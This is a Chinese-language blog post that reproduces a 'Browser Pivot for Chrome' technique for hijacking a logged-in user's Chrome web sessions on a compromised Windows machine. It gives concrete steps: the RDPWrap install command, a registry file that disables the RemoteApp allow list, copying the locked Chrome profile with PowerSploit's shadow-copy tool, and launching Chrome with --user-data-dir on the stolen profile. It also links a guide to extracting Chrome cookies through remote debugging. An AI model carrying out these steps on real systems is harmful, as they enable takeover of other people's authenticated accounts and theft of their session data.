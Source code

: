 # Browser Pivot for Chrome

​		标题只是个噱头。文章介绍如何窃取当前chrome的session,以获取当前用户正在浏览的web的权限。根据[browser-pivot-for-chrome](https://ijustwannared.team/2019/03/11/browser-pivot-for-chrome/)复现。

#### 0x00 前言

​		在CS上有Browser Pivot功能,用于针对IE进行浏览器中间人攻击，劫持受感染用户的已验证Web会话。Cobalt Strike使用注入到32位和64位Internet Explorer中的代理服务器来实现浏览器透视。当浏览此代理服务器时，将继承Cookie，经过身份验证的HTTP会话和客户端SSL证书。对于chrome，作者提供使用RemoteAPP+命令行指定配置文件启动chrome的方式来达到类似效果。

#### 0x01 RemoteAPP

​		RemoteAPP是一种虚拟应用程序解决方案，无论用户使用什么操作系统，都可以使用户运行基于Windows的应用程序。它允许用户从出现在其计算机上的服务器启动虚拟应用程序，就像虚拟服务器是本地安装的一样，但实际上是在远程服务器上运行的。简而言之，RemoteAPP是RDP服务的一种，区别于远程桌面，它只在客户端打开服务端上指定的应用，如CMD。默认支持RemoteAPP服务端的系统要求最低win7 Enterprise和ULtimate，需要开启多用户登录支持，我使用[Rdpwrap](https://github.com/stascorp/rdpwrap)来实现。使用RemoteAPP可绕过chrome的校验。

#### 0x02 命令行启动Chrome

​		在终端里，可以用chrome.exe [options]的形式[指定参数](https://www.cnblogs.com/videring/articles/7243958.html)来开启chrome。通过使用chrome的远程调试模式，还可以[获取到页面cookie](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)。

#### 0x03 利用步骤

- **使用Rdpwrap开启多用户同时登录**

  `rdpwinst -i is`

- **修改注册表**

  ```
  Windows Registry Editor Version 5.00
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server]
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList]
  "LicenseServers"=hex(7):00,00
  "CertificateIssuedBy"=""
  "LicensingType"=dword:00000005
  "fHasCertificate"=dword:00000000
  "CertificateExpiresOn"=""
  "CentralLicensing"=dword:00000000
  "fDisabledAllowList"=dword:00000001
  "CertificateIssuedTo"=""
  "CustomRDPSettings"="authentication level:i:2"
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList\Applications]
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList\Applications\Notepad]
  "Name"="Notepad"
  "Path"="C:\\\\windows\\\\system32\\\\notepad.exe"
  ```

- **配置rdp文件**

  在mstsc上另存为rdp文件

  ![](media/20191224-1.png)

  编辑得到的rdp文件，在末尾添加配置

  ![](media/20191224-3.png)

  注意箭头处要和上面注册表项里的"Name"项一致

- **卷影复制Chrome配置文件**

  在用户使用chrome时，由于占用了配置文件导致无法复制，需要使用卷影来复制。我使用[VolumeShadowCopyTools](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/VolumeShadowCopyTools.ps1)来实现。要复制的配置文件C:\Users\cate4cafe\AppData\Local\Google\Chrome\User Data，我把复制的文件放在C:\\users\\public目录下

- **使用RemoteAPP打开chrome**

  在Explorer进到chrome.exe所在目录，打开cmd，命令`chrome.exe --user-data-dir="C:\\users\\public\documents\User Data" --disable-gpu` 我在虚拟机下需要用--disable-gpu禁用chrome硬件加速才能正常启动，不然chrome会黑框。物理机上没测试。

  ![](media/20191224-4.png)

  

#### 0x04 后记

​		在默认不支持RemoteAPP的系统上，或许可以参照[771-windows-7-professional-as-remoteapp-server](http://hardwarefetish.com/771-windows-7-professional-as-remoteapp-server)修改来使系统支持RemoteAPP。由于我只是个脚本菜鸡，没能成功实现。等我的偶像站长来实现吧，仰慕他！

